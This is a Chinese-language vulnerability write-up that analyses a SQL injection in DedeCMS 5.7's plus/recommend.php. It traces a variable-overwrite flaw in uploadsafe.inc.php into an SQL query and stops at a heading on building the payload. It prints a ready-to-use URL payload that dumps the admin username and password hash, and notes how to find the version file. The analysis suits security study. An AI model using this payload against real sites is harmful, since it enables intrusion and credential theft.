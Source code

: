 ```yaml
---
description: 记录DedeCMS5.7漏洞信息
---
```


# DedeCMS5.7漏洞利用与分析

 源码链接：[https://pan.baidu.com/s/12PPzu6yho-ae1XRsQs5zxw](https://pan.baidu.com/s/12PPzu6yho-ae1XRsQs5zxw) 提取码：ay3g

## 漏洞复现

在分析漏洞形成原因之前，先来看一下这个漏洞复现情况。

查看系统的发布日期，直接访问 网站url/data/admin/ver.txt

![](../.gitbook/assets/image%20%2863%29.png)

此时间发布的版本在plus/recommend.php中存在注入漏洞，在此演示直接爆出用户名和密码散列值的payload

```text
/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\' or mid=@`\'` /*!50000union*//*!50000select*/1,2,3,(select CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin` limit+0,1),5,6,7,8,9%23@`\'`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=111
```

![&#x6F0F;&#x6D1E;&#x8868;&#x73B0;](../.gitbook/assets/image%20%2875%29.png)

## 漏洞分析

打开recommend.php,查看代码，第12行程序引入了一个common.inc.php

![](../.gitbook/assets/image%20%2858%29.png)

跟进去看一下

![](../.gitbook/assets/image%20%2831%29.png)

只要提交的URL中不包含cfg\_\|GLOBALS，即可通过检查。继续往下看代码

![](../.gitbook/assets/image%20%2815%29.png)

在第95行引入了uploadsafe.inc.php文件，查看文件代码，在第29行存在一个漏洞。

```text
$$_key = $_FILES[$_key]['tmp_name'] = str_replace("\\\\", "\\", $_FILES[$_key]['tmp_name']);
```

传入$\_key为type时 该语句就变成了对$type的赋值，导致了对$type变量覆盖，而在recommend.php中第38行，用到了$type变量来拼接sql语句。

```text
$arcRow=$dsql->GetOne("SELECT s.*,t.* FROM `#@__member_stow` AS s LEFT JOIN `#@__member_stowtype` AS t ON s.type=t.stowname WHERE s.aid='$aid' AND s.type='$type'");
```

## 如何构造payload

我们已经知道了漏洞存在的点，该如何达到目的那？




